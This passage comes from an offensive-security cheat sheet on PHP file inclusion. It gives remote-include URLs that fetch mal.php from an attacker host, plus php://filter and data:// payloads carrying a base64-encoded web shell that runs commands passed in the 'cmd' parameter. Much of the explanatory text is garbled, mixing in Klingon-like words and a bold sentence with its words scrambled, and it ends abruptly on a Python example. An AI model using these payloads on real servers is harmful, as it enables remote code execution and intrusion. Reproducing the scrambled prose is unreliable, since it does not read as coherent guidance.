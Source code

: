 ## qarDaS Qochbe' File Inclusion

php DaH jImej **`allow_url_include`** **Off** DaH jImej. **On** DaH jImej, 'ej vaj RCE ghaH include PHP file vay' server.
```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
ghobe' **`allow_url_include`** **On** vaj PHP **filtering** **external webpages** **access** **reason** **some** **If**, [according to this post](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), **example** **use** **could** **you** **data protocol** **with base64** **decode** **and** **RCE** **egt** **code PHP** **b64** **a**:

{% code overflow="wrap" %}
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
{% endcode %}

{% hint style="info" %}
In the previous code, the final `+.txt` was added because the attacker needed a string that ended in `.txt`, so the string ends with it and after the b64 decode that part will return just junk and the real PHP code will be included (and therefore, executed).
{% endhint %}

Another example **not using the `php://` protocol** would be:

{% code overflow="wrap" %}
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```
{% endcode %}

## Python Root element

In python in a code like this one:
```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```